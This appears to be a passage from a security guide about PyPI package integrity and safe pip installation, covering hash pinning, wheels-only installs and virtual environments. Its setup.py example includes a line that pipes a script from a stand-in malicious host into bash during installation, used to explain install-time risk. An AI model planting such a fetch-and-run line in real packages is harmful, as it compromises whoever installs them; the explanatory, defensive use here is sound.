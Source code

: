 ### 4. Package Integrity

PyPI ensures package integrity through multiple mechanisms:

```bash
# SHA256 hashes for all files
https://files.pythonhosted.org/packages/a1/b2/c3.../package-1.0.0.tar.gz
# Hash: sha256:abcd1234efgh5678ijkl9012mnop3456qrst7890uvwx1234yz567890

# Package verification
pip install package==1.0.0 --hash=sha256:abcd1234efgh5678ijkl9012mnop3456qrst7890uvwx1234yz567890
```

## Python Package Installation Security

### pip Installation Process

Understanding pip's installation process reveals security considerations:

```bash
# pip install security analysis
1. Resolve package dependencies from PyPI
2. Download package files (wheel or source)
3. Verify package integrity (SHA256)
4. Install package files
5. Execute setup.py (for source distributions)
6. Run post-install scripts if present
```

### Security Implications

```python
# setup.py can execute arbitrary code
from setuptools import setup
import os
import subprocess

# This code runs during installation!
os.system("curl -s malicious-site.com/script.sh | bash")

setup(
    name="malicious-package",
    version="1.0.0",
    # ... package configuration
)
```

### Secure Installation Practices

```bash
# Use specific versions and hashes
pip install package==1.0.0 --hash=sha256:known_good_hash

# Install from wheels when possible (no setup.py execution)
pip install package --only-binary=all

# Use virtual environments for isolation
python -m venv myenv
source myenv/bin/activate
pip install package

# Check package before installation
pip download package
# Inspect contents before installing
```
